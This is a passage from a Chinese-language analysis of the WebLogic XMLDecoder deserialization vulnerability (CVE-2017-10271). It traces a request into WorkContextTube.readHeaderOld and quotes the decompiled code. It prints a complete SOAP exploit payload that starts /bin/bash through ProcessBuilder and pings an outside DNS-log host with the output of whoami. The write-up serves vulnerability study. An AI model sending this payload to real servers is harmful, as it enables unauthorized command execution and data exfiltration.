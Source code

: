         return super.processRequest(var1);
    }

将var3传递给readHeaderOld(var3)，继续跟进readHeaderOld。

var1的值:

    com.sun.xml.ws.api.message.Packet@4419bacb Content: <?xml version='1.0' encoding='UTF-8'?><soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <java version="1.8.0_131" class="java.beans.XMLDecoder">
    <void class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="3">
    <void index="0">
    <string>/bin/bash</string>
    </void>
    <void index="1">
    <string>-c</string>
    </void>
    <void index="2">
    <string>ping `whoami`.7153b738c41fxxxxxxaadf9dbd46.tu4.org</string>
    </void>
    </array>
    <void method="start"/></void>
    </java>
    </work:WorkContext></soapenv:Header><soapenv:Body/></soapenv:Envelope>

![](resource/(CVE-2017-10271)WeblogicXMLDecoder反序列化漏洞/media/rId31.png)

WorkContextTube.class

    protected void readHeaderOld(Header var1) {
        try {
            XMLStreamReader var2 = var1.readHeader();
            var2.nextTag();
            var2.nextTag();
            XMLStreamReaderToXMLStreamWriter var3 = new XMLStreamReaderToXMLStreamWriter();
            ByteArrayOutputStream var4 = new ByteArrayOutputStream();
            XMLStreamWriter var5 = XMLStreamWriterFactory.create(var4);
            var3.bridge(var2, var5);
            var5.close();
            WorkContextXmlInputAdapter var6 = new WorkContextXmlInputAdapter(new ByteArrayInputStream(var4.toByteArray()));
            this.receive(var6);
        } catch (XMLStreamException var7) {
            throw new WebServiceException(var7);
        } catch (IOException var8) {
            throw new WebServiceException(var8);
        }
    }

![](resource/(CVE-2017-10271)WeblogicXMLDecoder反序列化漏洞/media/rId32.png)
